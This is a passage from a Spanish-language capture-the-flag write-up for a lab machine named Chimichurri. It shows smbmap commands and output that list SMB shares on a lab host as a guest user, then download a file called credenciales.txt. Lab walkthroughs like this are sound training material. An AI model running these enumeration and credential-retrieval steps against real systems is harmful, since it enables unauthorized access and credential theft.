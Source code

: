 ```bash
[*] Closed 1 connections
```
Excelente, este usuario sí nos sirve para listar los archivos compartidos.

Ahora podemos listar el recurso **drogas**:
```bash
smbmap -H 192.168.1.50 -u 'invitado' -r drogas
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.1.50:445       Name: chimichurri.thl           Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Admin remota
        C$                                                      NO ACCESS       Recurso predeterminado
        drogas                                                  READ ONLY
        ./drogas
        dr--r--r--                0 Thu Jun 27 04:20:49 2024    .
        dr--r--r--                0 Thu Jun 27 04:20:49 2024    ..
        fr--r--r--               95 Sun Jun 30 11:19:02 2024    credenciales.txt
        IPC$                                                    READ ONLY       IPC remota
        NETLOGON                                                NO ACCESS       Recurso compartido del servidor de inicio de sesión 
        SYSVOL                                                  NO ACCESS       Recurso compartido del servidor de inicio de sesión 
[*] Closed 1 connections
```
Genial, lo podemos ver.

Descarguemos ese archivo (esto es opcional):
```bash
smbmap -H 192.168.1.50 -u 'invitado' --download drogas/credenciales.txt

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
[+] Starting download: drogas\credenciales.txt (95 bytes)
[+] File output to: /../TheHackersLabs/Chimichurri/content/192.168.1.50-drogas_credenciales.txt  
```